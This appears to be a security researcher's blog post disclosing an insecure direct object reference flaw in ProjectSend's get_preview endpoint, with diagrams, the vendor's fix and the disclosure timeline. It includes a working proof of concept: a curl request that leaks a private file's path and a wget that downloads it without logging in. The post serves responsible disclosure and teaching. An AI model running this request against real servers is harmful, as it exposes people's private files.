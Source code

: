 ```yaml
---
layout: single
title:  "Downloading Private Files from ProjectSend - An IDOR Vulnerability"
author_profile: true
toc: true
related: true
classes: wide
mermaid: true
tags: 
    - vulnerability
header:
  teaser: /assets/images/projectsend_dashboard.png 
---
```


In a [previous post](/The-Harmless-Pihole-Bug/) I explained that my research into security vulnerabilities in Pi-hole led to me to discovering a more severe vulnerability in another project. In this article I will talk about the vulnerability that i found in [ProjectSend](https://www.projectsend.org/).
## What is ProjectSend?

ProjectSend is a self-hosted file sharing application based on PHP and MySQL. It's advertised as a secure, private, and easy way to share data with specific clients that can be configured through its web dashboard.

![process.php](/assets/images/projectsend_dashboard.png)
*Fig 1. ProjectSend Web Dashboard*
## What was the vulnerability?


The vulnerability had to do with the way uploaded files were handled by the **process.php** script. That endpoint was responsible for handling logins, changing language settings, and accessing files and metadata. Now while most of the functions of the script first checked authorization levels before continuing, one function responsible for generating file previews failed to do that. What this meant is that any anonymous user could request the preview of a file matching a number, and if a file associated with that number existed, the location to download that file directly would be returned. This is what is known as an insecure direct object reference (IDOR) vulnerability.

![process.php](/assets/images/projectsend_process_php.png)
*Fig 2. ProjectSend process.php insecure get_preview function*
## What is an IDOR?

In designing software to protect data from unauthorized access it's necessary to place a "security checkpoint" somewhere between the user and the data they are trying to access. 

### Security flow
<div class="mermaid">
flowchart LR
    user --> id2[security checkpoint] --> id3[secured data]
</div>
<br>
A common mistake that is made is to either place this check in a location that is easily bypassed or to assume that any user in a location "after" this checkpoint must be authorized. In the case of ProjectSend, the previewing of files was meant to be used in the **manage-downloads.php** endpoint which is inaccessible to users that are not logged in.

![Manage Downloads Dashboard](/assets/images/projectsend_manage_downloads.png)
*Fig 3. ProjectSend Manage Downloads Dashboard*

However, the **get_preview** function which was included from **process.php**, can actually be called by *any* unauthenticated user. This allows the leakage of the path of the uploaded file, with which it can be directly downloaded.

### Assumed secure data access
<div class="mermaid">
flowchart LR
    Unauthenticated --> id2[Log In] --> id3[Manage Downloads] --> id4[get_preview] --> id5[File Object] --> Download
</div>
 
### Actual insecure data access
<div class="mermaid">
flowchart LR
    Unauthenticated --> id4[get_preview] --> id5[File Object] --> Download
</div>
<br>
The **get_preview** function itself should of been checking for authorization but instead it insecurely connects directly to the file object reference and allows anyone to download it. That is what the following proof of concept demonstrates.

## Proof of Concept

```
> curl -i 'http://[ProjectSend-Server]/process.php?do=get_preview&file_id=4'
HTTP/1.1 200 OK
Server: nginx
Date: Mon, 13 Jan 2025 08:46:45 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.3.9
Set-Cookie: PHPSESSID=ogt4nhpr5oaov13ft05a7q93jn; path=/
Pragma: no-cache
Cache-Control: no-store, no-cache, must-revalidate, max-age=0
Expires: Sat, 26 Jul 1997 05:00:00 GMT

{"name":"Private_pdf.pdf","file_url":"http:\/\/[ProjectSend-Server]\/\/upload\/files\/1736756751-d033e22ae348aeb5660fc2140aec35850c4da997-Private_pdf.pdf","type":"pdf","mime_type":"application\/pdf"}

> wget http://[ProjectSend-Server]//upload/files/1736756751-d033e22ae348aeb5660fc2140aec35850c4da997
-Private_pdf.pdf
--2025-01-13 09:49:26--  http://[ProjectSend-Server]//upload/files/1736756751-d033e22ae348aeb5660fc2140aec35850c4da997-Private_pdf.pdf
<REDACTED>
HTTP request sent, awaiting response... 200 OK
Length: 717589 (701K) [application/pdf]
Saving to: '1736756751-d033e22ae348aeb5660fc2140aec35850c4da997-Private_pdf.pdf'

1736756751-d033e22ae34 100%[==========================>] 700.77K  --.-KB/s    in 0.07s

2025-01-13 09:49:26 (10.0 MB/s) - '1736756751-d033e22ae348aeb5660fc2140aec35850c4da997-Private_pdf.pdf' saved [717589/717589]

```

## What is the consequence of this vulnerability, and how widely used is the software?

Since the file IDs are numerical and increment by one, this vulnerability allowed the download of all previewable files on the target server. This included PDF, image, audio, and video files. No setting could mitigate or prevent this. The vulnerability is present on ProjectSend versions r1605 and lower.

According to [recent surveys by Censys](https://censys.com/cve-2024-11680/), there are over 4000 public facing ProjectSend servers. 

## How did the vendor respond and fix the vulnerability?

I informed the project maintainer, Ignacio, via email July 20th, 2024. I received a response 13 days later informing me of the [fix](https://github.com/projectsend/projectsend/commit/eb5a04774927e5855b9d0e5870a2aae5a3dc5a08) and I was credited along with another researcher in the [GitHub release](https://github.com/projectsend/projectsend/releases/tag/r1720) and [website changelog](https://www.projectsend.org/change-log/). The fix they applied was to add the following code before the execution of the get_preview function:

```
if (!user_can_download_file(CURRENT_USER_ID, $_GET['file_id'])) {
                exit_with_error_code(403);
            }
```
 
The vulnerability was assigned [CVE-2024-7658](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-7658)

## Going forward

This was another fun experience in probing open source software for vulnerabilities. This case especially highlights the ease at which IDORs can be introduced into software and hidden under the assumption of security until examined closely. It is also thanks to open source that such issues can be ironed out and lessons learned.
